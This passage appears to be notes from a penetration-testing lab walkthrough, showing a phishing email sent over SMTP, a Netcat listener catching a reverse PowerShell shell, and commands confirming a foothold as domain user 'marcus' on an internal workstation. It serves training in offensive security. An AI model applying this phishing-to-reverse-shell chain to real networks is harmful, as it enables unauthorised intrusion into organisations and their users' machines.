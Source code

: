 ```
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

After waiting a few moments, we receive requests for our WebDAV and Python3 web servers
+ Let's check the Netcat listener:
```
listening on [any] 4444 ...
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 64264
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> 
```
+ Above shows that our client-side attack via email was successful and we obtained an interactive shell on a machine

Let's display the current user, hostname, and IP address to confirm that we have an initial foothold in the internal network
```
PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
beyond\marcus

PS C:\Windows\System32\WindowsPowerShell\v1.0> hostname
hostname
CLIENTWK1

PS C:\Windows\System32\WindowsPowerShell\v1.0> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.6.243
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.6.254
PS C:\Windows\System32\WindowsPowerShell\v1.0>
```
+ Above shows that we landed on the CLIENTWK1 system as domain user _marcus_
+ In addition, the IP address of the system is _172.16.6.243/24_, indicating an internal IP range
+ We should also document the IP address and network information, such as the subnet and gateway in our workspace directory
